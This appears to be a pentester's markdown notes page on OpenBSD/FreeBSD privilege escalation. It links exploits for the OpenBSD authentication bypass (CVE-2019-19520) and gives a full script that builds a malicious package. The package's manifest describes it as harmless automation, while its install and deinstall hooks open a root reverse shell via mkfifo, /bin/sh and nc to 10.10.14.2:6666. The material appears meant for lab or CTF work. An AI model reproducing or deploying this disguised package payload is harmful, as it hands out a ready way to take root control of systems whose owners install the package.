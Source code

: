# OpenBSD-Things
#lpe #openbsd

## LPE
Name | URLs
--- | ---
Auth-Bypass (-schallenge) exploits | https://packetstormsecurity.com/files/155572/Qualys-Security-Advisory-OpenBSD-Authentication-Bypass-Privilege-Escalation.html
 -""- | https://github.com/bcoles/local-exploits/blob/master/CVE-2019-19520/openbsd-authroot
 
 ## Evil PKG
 http://lastsummer.de/creating-custom-packages-on-freebsd/
 
 ```
 #!/bin/sh

STAGEDIR=.
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}

cat >> ${STAGEDIR}/+PRE\_DEINSTALL <<EOF
# careful here, this may clobber your system
echo "Resetting root shell"
rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc 10.10.14.2 6666 >/tmp/a
EOF

cat >> ${STAGEDIR}/+POST\_INSTALL <<EOF
# careful here, this may clobber your system
echo "Registering root shell"
rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc 10.10.14.2 6666 >/tmp/a
EOF

cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0\_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF

mkdir -p ${STAGEDIR}/usr/local/etc
echo "# hello world" > ${STAGEDIR}/usr/local/etc/my.conf
echo "/usr/local/etc/my.conf" > ${STAGEDIR}/plist
```

`pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -p ${STAGEDIR}/plist -o .`